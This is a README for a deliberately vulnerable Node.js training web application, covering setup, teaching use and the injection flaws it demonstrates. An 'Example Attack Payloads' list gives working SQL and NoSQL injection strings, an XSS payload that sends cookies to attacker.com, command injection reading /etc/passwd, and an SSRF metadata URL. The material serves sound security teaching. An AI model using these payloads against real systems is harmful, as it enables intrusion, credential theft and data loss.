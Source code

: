 # Sentinel: Vulnerable Web Application

A deliberately vulnerable web application designed for educational purposes to demonstrate common web vulnerabilities and how they can be exploited. This application is intended for cybersecurity students, professionals, and enthusiasts to practice identifying and exploiting web vulnerabilities in a controlled environment.

![Security Training](https://img.shields.io/badge/Security-Training-red)
![Node.js](https://img.shields.io/badge/Node.js-14+-green)
![Express](https://img.shields.io/badge/Express-4.x-blue)
![Educational](https://img.shields.io/badge/Purpose-Educational-yellow)

## ⚠️ WARNING

This application intentionally contains security vulnerabilities. **DO NOT** deploy this in a production environment or on a publicly accessible server. It should only be run locally or in a secured, isolated environment for educational purposes.

## Overview

Sentinel is built using Node.js and Express, with both MySQL and MongoDB databases to demonstrate different types of injection attacks. Each vulnerability has a dedicated page with interactive elements allowing users to test and learn about different attack vectors.

## Vulnerabilities Demonstrated

This application includes demonstrations of:

1. **SQL Injection (SQLi)** - Manipulating SQL queries through user inputs
2. **NoSQL Injection** - Attacking MongoDB queries with crafted inputs
3. **Cross-Site Scripting (XSS)** - Injecting malicious scripts executed by the browser
4. **Command Injection** - Executing unauthorized system commands
5. **Server-Side Request Forgery (SSRF)** - Forcing the server to make unintended requests
6. **Local File Inclusion (LFI)** - Accessing files on the server through path manipulation
7. **HTML Injection** - Inserting unauthorized HTML content
8. **CSS Injection** - Manipulating page styles for malicious purposes

## Getting Started

### Prerequisites

- Node.js (v14 or higher)
- MongoDB
- MySQL

### Installation

1. Clone the repository
   ```bash
   git clone https://github.com/yourusername/sentinel-vulnerable-app.git
   cd sentinel-vulnerable-app
   ```

2. Install dependencies
   ```bash
   npm install
   ```

3. Set up MySQL:
   ```sql
   CREATE DATABASE Logging;
   USE Logging;
   CREATE TABLE User (
     id INT AUTO_INCREMENT PRIMARY KEY,
     username VARCHAR(50) NOT NULL,
     password VARCHAR(50) NOT NULL
   );
   
   -- Add sample user data
   INSERT INTO User (username, password) VALUES 
     ('admin', 'admin123'),
     ('user', 'password123'),
     ('test', 'test123');
   ```

4. Set up MongoDB:
   ```bash
   # Start MongoDB shell
   mongosh
   
   # Create and use database
   use testdb
   
   # Create collection and add sample documents
   db.myCollection.insertMany([
     { username: "admin", password: "adminpass", role: "admin" },
     { username: "user1", password: "userpass", role: "user" },
     { username: "guest", password: "guestpass", role: "guest" }
   ])
   ```

5. Configure database connections:
   - Review and update database connection settings in `config/mysql.js` and `config/mongodb.js` if necessary

6. Start the application:
   ```bash
   npm start
   ```

7. Access the application at: `http://localhost:3001`

## For Educators

### Teaching Features

Each vulnerability demonstration includes:
- Client-side interface to interact with the vulnerable endpoint
- Server-side vulnerable code with comments explaining the security issues
- Educational notes explaining the vulnerability mechanisms and impact
- Example payloads to demonstrate exploitation techniques
- Secure implementations for comparison and security best practices

### Suggested Lesson Structure

1. **Introduction to the vulnerability**: Theory and background
2. **Live demonstration**: Using the Sentinel application to show the vulnerability
3. **Guided exploitation**: Walking students through crafting their own payloads
4. **Security analysis**: Identifying the root cause in the code
5. **Remediation strategies**: Discussing proper security controls and fixes
6. **Hands-on lab**: Allowing students to experiment with different attack vectors

### Example Attack Payloads

- **SQL Injection**: `admin' OR '1'='1` or `admin'; DROP TABLE users; --`
- **NoSQL Injection**: `{"username": {"$ne": null}, "password": {"$ne": null}}`
- **XSS**: `<script>alert(document.cookie)</script>` or `<img src="x" onerror="fetch('https://attacker.com/steal?cookie='+document.cookie)">`
- **Command Injection**: `; cat /etc/passwd` or `& whoami`
- **SSRF**: Input with internal URLs like `http://localhost:3001/latest/meta-data`

## Educational Resources

### Learning Resources

To learn more about these vulnerabilities and how to prevent them, visit:
- [OWASP Top Ten](https://owasp.org/www-project-top-ten/) - Current most critical web application security risks
- [OWASP Web Security Testing Guide](https://owasp.org/www-project-web-security-testing-guide/) - Comprehensive web application security testing guide
- [PortSwigger Web Security Academy](https://portswigger.net/web-security) - Free interactive labs
- [HackerOne CTF Challenges](https://ctf.hacker101.com/) - Capture the flag challenges for web security
- [Cybrary](https://www.cybrary.it/) - Free cybersecurity training and career development

### Reference Materials

- [Mozilla Web Security Guidelines](https://infosec.mozilla.org/guidelines/web_security.html) - Best practices for secure web development
- [SANS SWAT Checklist](https://www.sans.org/cloud-security/securing-web-application-technologies/) - Securing web applications
- [Node.js Security Best Practices](https://nodejs.org/en/docs/guides/security/) - Node.js specific security guidelines
- [Express.js Security Best Practices](https://expressjs.com/en/advanced/best-practice-security.html) - Securing Express applications

## Project Structure

```
├── app.js                   # Main application entry point
├── package.json             # Project dependencies and scripts
├── config/                  # Database configuration
│   ├── mongodb.js           # MongoDB connection setup
│   └── mysql.js             # MySQL connection setup
├── handlers/                # Route handlers for vulnerable endpoints
│   ├── cmdHandler.js        # Command injection handler
│   ├── lfiHandler.js        # Local file inclusion handler
│   ├── nosqlHandler.js      # NoSQL injection handler
│   ├── sqlHandler.js        # SQL injection handler
│   └── ssrfHandler.js       # SSRF handler
└── public/                  # Static web pages
    ├── cmd.html             # Command injection page
    ├── error.html           # Error page
    ├── index.html           # Home page
    ├── lfi.html             # Local file inclusion page
    ├── nosqli.html          # NoSQL injection page
    ├── sqli.html            # SQL injection page
    ├── ssrf.html            # SSRF page
    └── xss.html             # XSS page
```

## How to Contribute

Contributions to improve this educational tool are welcome. You might:

1. Add new vulnerability demonstrations
2. Improve existing vulnerability examples
3. Enhance documentation or educational notes
4. Fix bugs or improve the user interface

To contribute:
1. Fork the repository
2. Create your feature branch (`git checkout -b feature/amazing-feature`)
3. Commit your changes (`git commit -m 'Add some amazing feature'`)
4. Push to the branch (`git push origin feature/amazing-feature`)
5. Open a Pull Request

## License

This project is for educational purposes only. Use responsibly.

## Disclaimer

The creators of this application are not responsible for any misuse of the techniques demonstrated. This tool should only be used for legitimate security education and testing with proper permission.